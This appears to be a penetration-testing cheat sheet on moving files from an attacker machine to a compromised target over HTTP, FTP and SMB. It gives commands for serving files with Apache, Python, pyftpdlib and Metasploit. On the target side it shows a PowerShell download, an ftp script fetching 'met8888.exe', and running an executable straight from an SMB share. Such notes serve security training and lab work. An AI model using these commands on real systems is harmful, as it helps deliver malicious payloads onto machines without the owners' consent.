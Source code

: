 # File Transfer

File can either be transferred by:
* Push file to target
* Have the target to pull file back

### <span style="color:green">HTTP</span>

**On attacker machine**:

#### <span style="color:green">Apache</span>

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start


#### <span style="color:green">Python</span>

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer [port no]

**On target machine**:
> http://your_ip_address:your_port_num/filename

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "<span style="color:blue">(new-object System.Net.WebClient).DownloadFile('http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name')</span>"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer
> start iexplore.exe [http://ip address/file]

### <span style="color:green">FTP</span>

#### vsftpd/pytftpd

**On attacker machine**:


`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib  

> python -m pyftpdlib -p [port_num]

default port is 2121

`-w` can grant the user write access

#### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp

> set FTPROOT /root/shells

> exploit

Can be kill with:
> jobs -k [id]

**On target machine**:

Type it into your cmd.exe

>echo open <span style="color:blue">your_ip_address</span>\>ftp_commands.txt  
>echo anonymous>>ftp_commands.txt  
>echo whatever>>ftp_commands.txt  
>echo binary>>ftp_commands.txt  
>echo get met8888.exe>>ftp_commands.txt  
>echo bye>>ftp_commands.txt  
><span style="color:blue">ftp -s:ftp_commands.txt</span> 

### <span style="color:green">SMB</span>

**On attacker machine**:

> `smbserver.py shareName sharePath`
> `(e.g. smbserver.py TMP /tmp)`

Check with smbclient
> `smbclient -L \[your ip address\] --no-pass`

**On target machine**:
or check on Windows
> `net view \\\\\[attack machine ip address\]`

Copy file 
`copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB
`\\[your ip address]\file.exe`


